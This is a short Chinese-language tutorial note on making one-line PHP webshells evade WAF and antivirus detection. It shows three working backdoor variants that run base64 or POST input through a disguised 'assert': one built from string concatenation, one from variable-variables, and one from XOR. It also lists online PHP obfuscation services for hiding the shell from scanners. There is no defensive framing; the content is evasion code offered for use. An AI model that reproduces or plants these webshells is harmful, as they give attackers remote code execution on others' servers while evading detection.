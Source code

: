 # 免杀-一句话的免杀

[WAF绕过-权限控制篇-后门免杀](https://mp.weixin.qq.com/s/RCCs-ztv-G8tNaWKky3GTQ) 

根据这个师傅的文章来学习

## 1.传参带入

```php
<?php
 
$a = $_GET['a'];
 
$aa = $a . 'ert';
 
$aa(base64_decode($_POST['x']));
?>
```

经过测试在 php5的版本能够实现getshell

并且eval无法实现

## 2.变量覆盖

```php
<?php
 
$a = 'b';
$b='assert';
$$a(base64_decode($_POST['x']));
?>
```

可以通过变量覆盖的方式实现getshell

## 3.异或运算

```php
<?php
 
$a=('!'^'@').'ssert';
 
$a($_POST['x']);
 
?>
```

这里我们可以 !^@ = a

## 4.混淆/加密变异

这里提供网站

 [Free Online Developer Tools - TOOLFK](https://www.toolfk.com/) 

 [PHP加密 - PHP在线加密平台](http://www.phpjm.net/) 

 [php加密|php在线加密|php组件加密|php源码加密|zend加密|ionCube9加密|最好的PHP在线加密工具​​​​​​](https://www.phpjiami.com/) 

将代码存入上面加密后可以发现无法 检测出webshell